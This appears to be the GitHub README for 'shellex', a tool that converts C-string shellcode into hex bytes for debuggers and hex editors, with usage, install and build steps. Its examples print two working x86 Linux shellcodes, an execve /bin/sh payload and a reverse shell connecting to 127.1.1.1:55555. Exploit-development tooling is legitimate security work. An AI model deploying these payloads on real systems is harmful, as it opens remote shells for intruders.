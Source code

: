 # shellex
WARNING: the ugliest code in the world, I have developed this just for my own needs, you can improve the project via PR.

C-shellcode to hex converter

Are you having problems converting C-shellcodes to HEX (maybe c-comments+ASCII mixed?) 

Here is shellex. If the shellcode can be compiled in a C compiler shellex can convert it.

Just execute shellex, paste the shellcode c-string and press ENTER. 

To end use Control+Z(Windows)/Control+D(Linux)

Converting c-shellcode-multi-line-hex+mixed_ascii (pay attention in the mixed part **\x68//sh\x68/bin\x89**):
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```

shellex output:
```
6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80
```

Now you can copy the output & paste it to Immunity Debugger, ollydbg, x64dbg, 010 hexadecimal editor etc.

Converting c-shellcode-multi-line-with-comments:
```
"\x68"
"\x7f\x01\x01\x01"  // <- IP:  127.1.1.1
"\x5e\x66\x68"
"\xd9\x03"          // <- Port: 55555
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce"
```

shellex output:
```
68 7F 01 01 01 5E 66 68 D9 03 5F 6A 66 58 99 6A 01 5B 52 53 6A 02 89 E1 CD 80 93 59 B0 3F CD 80 49 79 F9 B0 66 56 66 57 66 6A 02 89 E1 6A 10 51 53 89 E1 CD 80 B0 0B 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 EB CE
```

Do you need the shellex output as a new c-shellcode-string? just use -h parameter, example converting the shellex output:
```
./shellex -h 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80

\x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80
```

## Installation

```
git clone https://github.com/David-Reguera-Garcia-Dreg/shellex.git
```

### For Windows:

binary: shellex\bins\shellex.exe

### For Linux

Deps:

```
sudo apt-get install tcc
```

binary: shellex/linuxbins/shellex

## Compilation

For Windows just use Visual Studio 2013
* https://my.visualstudio.com/Downloads?q=visual%20studio%202013&wt.mc_id=o~msft~vscom~older-downloads
* https://go.microsoft.com/fwlink/?LinkId=532495&clcid=0x409

For Linux just: 
```
cd shellex/shellex
gcc -o shellex shellex.c
./shellex
```


